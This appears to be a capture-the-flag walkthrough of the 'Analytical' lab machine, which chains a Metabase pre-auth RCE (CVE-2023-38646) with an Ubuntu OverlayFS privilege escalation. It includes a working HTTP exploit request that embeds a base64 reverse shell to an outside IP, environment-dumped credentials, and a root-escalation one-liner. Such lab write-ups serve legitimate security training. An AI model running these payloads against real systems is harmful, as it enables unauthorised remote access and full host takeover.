 # Analytical

## Enumeration:

Start off with an NMAP scan:
```bash
Nmap scan report for 10.10.11.233
Host is up (0.20s latency).
Not shown: 61570 closed tcp ports (conn-refused), 3963 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This leaks the `analytical.htb` domain name. Subdirectory fuzz on this domain doesn't reveal anything.  

Subdomain Fuzz discovers the `data.analytical.htb` subdomain. This is a Metabase WebApp which redirects us to `/auth/login`. 

Performing a Subdirectory Fuzz for `data.analytical.htb`displays the following subdirectories and endpoints:
- /api
- /app
- /public
- /embed
- /auth

## Exploit:

While looking around for an exploit for Metabase, we come across [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396). This CVE also has the following [Proof-of-Concept](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

We can obtain the `setup-token` from `api/session/properties`, which we can use to make the following POST request:
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=97ae2e52-ac3d-42b4-99be-f05281becfba
Connection: close
Content-Type: application/json
Content-Length: 826


{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xNjMvOTAwMCAwPiYxCg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The exploit revolves around `/api/setup/validate` endpoint which is used to validate JDBC connections and then performs an SQLi on the H2 db driver. You can edit the base64 string provided with your own reverse shell. 

This gives us a foothold on the server, however we find out that we are in a docker container.

Running `env` to show environmental variables shows you the following credentials:

```bash
$ env

SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=24f6be72f356
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

This reveals the following credentials- `metalytics:An4lytics_ds20223#`

We can use those credentials to SSH onto the server. User Flag can be found in `/home/metalytics/user.txt`
## Privilege Escalation:

Looking into the machine, We can see that its running the following:
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

This particular version of Ubuntu is vulnerable to a LPE (Local Privilege Escalation) exploit: [Priv Esc](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=38239)

We can use the following as a Proof-of-Concept:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod +s /bin/bash")'
```

Running `bash -p` will give you a root shell. Root Flag can be found in `/root/root.txt`
